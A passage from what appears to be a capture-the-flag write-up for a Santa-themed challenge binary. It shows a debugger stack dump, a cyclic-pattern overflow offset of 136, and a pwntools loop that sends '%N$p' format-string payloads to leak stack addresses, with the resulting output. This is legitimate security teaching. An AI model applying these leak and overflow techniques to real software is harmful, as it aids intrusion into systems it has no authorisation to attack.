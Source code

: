 ```
0e:0070│-040 0x7ffe48307740 ◂— 0x6261617a61616179 ('yaaazaab')
0f:0078│-038 0x7ffe48307748 ◂— 0x6261616362616162 ('baabcaab')
10:0080│-030 0x7ffe48307750 ◂— 0x6261616562616164 ('daabeaab')
11:0088│-028 0x7ffe48307758 ◂— 0x6261616762616166 ('faabgaab')
12:0090│-020 0x7ffe48307760 ◂— 0x6261616962616168 ('haabiaab')
13:0098│-018 0x7ffe48307768 ◂— 0x6261616b6261616a ('jaabkaab')
```

Now we can use this string to find the correct offset:

```python
cyclic_find(b'jaabkaab') # 136
```

Perfect, now we just need the right offset to print the string. We can figure out the right one by just trying a few:

```python
for i in range(50):
    try:
        io = process([exe.path])
        ...
        io.recvuntil(b"else?")
        io.sendline(b'%' + str(i).encode() + b'$p')
        print(i, io.recvline())
        io.close()
    except:
        pass
```

from which we get the right offset `25` at which we can see `XXXXXXXXX480`:

```
0 b'Santa: You want me to help you with %0$p?\n'
1 b'Santa: You want me to help you with 0x7ffd69f0c2a0?\n'
2 b'Santa: You want me to help you with (nil)?\n'
3 b'Santa: You want me to help you with (nil)?\n'
4 b'Santa: You want me to help you with 0x78?\n'
5 b'Santa: You want me to help you with 0x80?\n'
6 b'Santa: You want me to help you with 0xa68?\n'
7 b'Santa: You want me to help you with 0x7b33325648ef70?\n'
8 b'Santa: You want me to help you with 0x70243825?\n'
9 b'Santa: You want me to help you with 0x1?\n'
10 b'Santa: You want me to help you with 0xa?\n'
11 b'Santa: You want me to help you with 0x7f98be1b2780?\n'
12 b'Santa: You want me to help you with 0x556dbbf5c020?\n'
13 b'Santa: You want me to help you with 0x7f7fa531c600?\n'
14 b'Santa: You want me to help you with 0x7f526af10000?\n'
15 b'Santa: You want me to help you with 0x7f17863b5bc9?\n'
16 b'Santa: You want me to help you with 0x7f705c48d780?\n'
17 b'Santa: You want me to help you with 0x7f28a1559053?\n'
18 b'Santa: You want me to help you with 0x2c?\n'
19 b'Santa: You want me to help you with 0x565253965378?\n'
20 b'Santa: You want me to help you with 0x7fdbd3d2a780?\n'
21 b'Santa: You want me to help you with 0x7f9227980cfa?\n'
22 b'Santa: You want me to help you with 0x7fffc7b78248?\n'
23 b'Santa: You want me to help you with 0x7f265243cd14?\n'
24 b'Santa: You want me to help you with 0x7ffe606647b8?\n'
25 b'Santa: You want me to help you with 0x564072241 480?\n'
```
